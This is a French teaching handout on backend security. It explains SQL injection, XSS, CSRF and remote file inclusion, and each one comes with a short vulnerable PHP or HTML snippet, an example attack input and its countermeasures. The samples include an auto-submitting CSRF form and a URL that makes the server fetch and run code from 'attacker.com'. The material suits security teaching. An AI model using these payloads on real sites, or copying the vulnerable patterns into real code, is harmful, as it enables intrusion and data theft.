

# Séance 3 – Sécurité backend (PHP, Spring Boot, Node.js)  

## Partie 1 – Principales failles backend : SQL Injection, XSS, CSRF, RCE  

### 1. Explication détaillée de chaque faille avec des vecteurs d'attaque  

---

### A. SQL Injection (Injection SQL)  

#### Description  
L'injection SQL est une faille qui permet à un attaquant d'injecter du code SQL malveillant dans une requête SQL, par exemple via des entrées utilisateur non filtrées ou mal échappées. Cette attaque peut entraîner la divulgation, modification ou suppression non autorisée de données.  

#### Vecteur d'attaque typique  

Supposons le code PHP suivant :

```php
$id = $_GET['id'];
$query = "SELECT * FROM users WHERE id = $id";
$result = mysqli_query($conn, $query);
```

Si un utilisateur envoie en paramètre `id=1 OR 1=1`, la requête devient :  

```sql
SELECT * FROM users WHERE id = 1 OR 1=1
```

Ce qui retourne tous les utilisateurs, contournant l’intention initiale.  

#### Contre-mesures  

- Utiliser des requêtes préparées (paramétrées).  
- Valider et filtrer strictement les entrées utilisateur.  
- Limiter les privilèges SQL du compte utilisé.  

---

### B. XSS (Cross-Site Scripting)  

#### Description  
Le Cross-Site Scripting permet à un attaquant d’injecter du code JavaScript ou HTML malveillant dans une page vue par d’autres utilisateurs, pouvant permettre le vol de cookies, le détournement de session, ou la redirection vers des sites malveillants.  

#### Vecteur d'attaque  

Un formulaire non sécurisé qui affiche un message d’utilisateur sans échappement :  

```html
<p>Bonjour, <?php echo $_GET['name']; ?></p>
```

Si `name=<script>alert('XSS')</script>`, le navigateur exécutera ce script lors du rendu.  

#### Contre-mesures  

- Échapper systématiquement les données affichées dans les pages (ex: `htmlspecialchars` en PHP).  
- Utiliser des Content Security Policy (CSP).  
- Valider et nettoyer les entrées utilisateur côté serveur et client.  

---

### C. CSRF (Cross-Site Request Forgery)  

#### Description  
CSRF consiste à faire exécuter par un utilisateur authentifié une requête HTTP malveillante à son insu, par exemple via un formulaire caché ou un script dans une page tierce, provoquant des actions non désirées (changer mot de passe, valider un paiement).  

#### Vecteur d'attaque  

Page malveillante :  

```html
<form action="https://votresite.com/change-email" method="POST">
  <input type="hidden" name="email" value="hack@example.com"/>
</form>
<script>document.forms[0].submit();</script>
```

Si l’utilisateur est connecté à `votresite.com`, cette requête sera validée avec ses droits.  

#### Contre-mesures  

- Utiliser des tokens CSRF uniques et liés à la session (`Synchronizer Token Pattern`).  
- Vérifier les en-têtes `Origin` ou `Referer`.  
- Faire des requêtes sensibles via POST et non GET.  

---

### D. RCE (Remote Code Execution)  

#### Description  
RCE est une faille critique permettant à un attaquant d’exécuter du code arbitraire sur le serveur à distance, souvent via l’inclusion de fichiers dangereux, l’injection de commandes shell, ou des entrées non contrôlées dans des fonctions sensibles.  

#### Vecteur d'attaque  

Exemple PHP vulnérable :  

```php
include($_GET['page']);
```

Un attaquant peut demander `page=http://attacker.com/malicious.php` qui sera inclus et exécuté sur le serveur.  

#### Contre-mesures  

- Ne jamais inclure ou exécuter directement des entrées utilisateur.  
- Restreindre les fonctions sensibles.  
- Utiliser des listes blanches pour les fichiers autorisés.  
- Mettre à jour régulièrement les dépendances et le serveur.  

---

### E. Diagramme Mermaid – Synthèse des vecteurs d’attaque  



---

### Sources  

- OWASP Top 10, https://owasp.org/www-project-top-ten/  
- OWASP Injection, https://owasp.org/www-community/attacks/SQL_Injection  
- OWASP XSS, https://owasp.org/www-community/attacks/xss/  
- OWASP CSRF, https://owasp.org/www-community/attacks/csrf  
- OWASP Remote Code Execution, https://owasp.org/www-community/vulnerabilities/Remote_Code_Execution  

---

### Conclusion  

La maîtrise des failles fréquentes comme SQL Injection, XSS, CSRF et RCE est indispensable pour protéger les applications backend. Chacune repose sur la manipulation malveillante des entrées utilisateur, et leurs combats communs passent par la validation, l’échappement, la segmentation des privilèges et la mise en place de protections spécifiques.